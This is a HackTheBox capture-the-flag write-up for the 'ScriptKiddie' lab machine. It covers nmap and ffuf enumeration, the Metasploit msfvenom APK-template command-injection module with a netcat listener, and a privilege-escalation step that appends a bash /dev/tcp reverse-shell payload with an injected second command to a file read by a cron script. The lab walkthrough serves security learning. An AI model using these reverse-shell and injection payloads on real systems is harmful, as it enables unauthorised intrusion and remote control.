# HackTheBox - ScriptKiddie

## Introduction
<p align="justify">
Hello Friend! You have come a long way following me here. So let me show you how i solved this challenge named <b><u>ScriptKiddie</u></b>. You with me ? Good ! Let's do it.
</p>

### 1. Enumeration
When I joined the machine, I got an *ip_address* of **10.10.10.226**. The first thing i tend to do when i have an *ip_address* is to see if a http website is up and running. So i manually visited the site but got nothing.

Then i fired up my `nmap` scan to see all the active ports it can find.

```bash
nmap -sC -sV 10.10.10.226 -oN recon/nmap_initial
```

I often scan top ports and save its response for future references as well as a quick guide for me. Again i fired up another `nmap` scan to look for all open ports.

```bash
nmap -p- 10.10.10.226 -oN recon/nmap_all_ports
```

I let it run in the background. All ports scan is just for the case not to miss anything.



First `nmap` scan returned me with an output saying there's a `ssh` service running on port *22*. And the interesting thing is there is a `http` service running on port *5000*. `Nmap` also said that this is a ***Werkzeug httpd 0.16.1*** server.

I thought as the title suggests, this box may have a well known vulnerability which should be exploited. So i rushed and searched for **Werkzeug** exploit.

```bash
searchsploit Werkzeug
```



Indeed there is an exploit for **Werkzeug** server leading to *RCE*. I quickly copied the exploit.

```bash
searchsploit -m multiple/remote/43905.py
```

I decided not to be a complete script kiddie and i took a sneak peek at the exploit. I quickly found out that the exploit only works if debug mode is enabled. If the debug mode is enabled, then you will have a */console* page.

```bash
curl http://10.10.10.226:5000/console
```

I saw there wasn't any page called console. Maybe the */console* endpoint is ofuscated, so let's have a fuzzing here

```bash
ffuf -u http://10.10.10.226:5000/FUZZ -w /mnt/hack/wordlist/common.txt
```



I didn't find anything so i concluded that the site does not have debug mode enabled and to our dismay, our exploit for quick *RCE* does not work here. :disappointed:

Let's take a look at the webpage. There are three sections for **Nmap**, **msfvenom** and **searchsploit**. Looking at the website, guess we have lots to try for exploits like *command injection*, *RFI*, *LFI*, *File upload* vuln etc. I did all the tries just to find none of my method worked. I was quite frustrated at that moment.
<br><br>

### 2. Malicious Payload
Then *msfvenom* section of website caught my attention.



I saw that it is executing `msfvenom` to generate exploit and it takes templates. I searched for template injection, and to my surprise there was a well known command injection vulnerability in Metasploit's `msfvenom` payload generator, when using a crafted **APK** file as an android payload template. To trigger this vulnerability, the victim should do following
```bash
msfvenom -p android/<.....> -x
```

I also found a way to generate the malicious template file. I quickly fired up `msfconsole`.



```bash
msf> use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
msf> set lhost <ip_addr>
msf> set lport 8888
msf> set rhosts 10.10.10.226
msf> set rport 5000
msf> exploit
```

This created a template for me to use in website.

Now i fired up `netcat` to listen to the port
```bash
nc -vnlp 8888
```
Then i uploaded the file selecting OS as **android**, *lhost* as my ip and template as my file generated by `msfconsole`.



***Oh yes !!! We got a reverse shell.***

Changing it to interactive shell,
```bash
script -qc /bin/bash /dev/null
```

Exploring the system, We completed our first checkpoint i.e. user flag.



Now our next target is going to be **root** flag. You there with me on this ?
<br><br>

### 3. Privilege Escalation
Now we are logged in as user `kid` in the server and it didn't took us time to find out how we have very low privileges. Exploring the system we find out that there are two users in system `kid` and `pwn`. Looking at files that `pwn` owns, there is a file `scanlosers.sh` which runs `nmap` against a file named `hackers`. Ahh! Our ticket to privilege escalation. I was being a complete **script kiddie** there and fired a netcat listener.

```bash
nc -vnllp 9999
```

I got a reverse shell script which others said worked in this box and fired it
```bash
echo ";/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```
But to my shock, it didn't work out for me. I tried different way of inserting this payload in the file *hackers*, but neither payload worked nor i saw anything written in the file. I was way to much frustrated and i took a break.

I came back and decided to look at the script *scanlosers.sh*



Now we have all our answers. The script is taking all the thing from third section to the last *( with `cut` operation)* and providing it to `nmap`. Now first our payload must be at third section, and it should break out of `nmap` command to run our provided command. So for testing, let's see if we can create a file

```bash
echo "a b ;/bin/bash -c 'touch random.txt' #" >> hackers
```



Surprise !! We have our file created.

Now our payload works if we craft with two spaces before our previous payload. So our payload becomes like this
```bash
echo "<space><space>;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```

The actual payload looks like this 
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```



Ad we got a reverse shell as `pwn` user.

Checking for permissions that `pwn` user have
```
sudo -l
```


We saw that *pwn* user can run `msfconsole` as root without a password.

```
sudo msfconsole
```
Now using `/bin/bash` we get a shell as root user. We can find the root flag on */root/root.txt*.



***lesson learnt:*** *Never be a script kiddie !!!*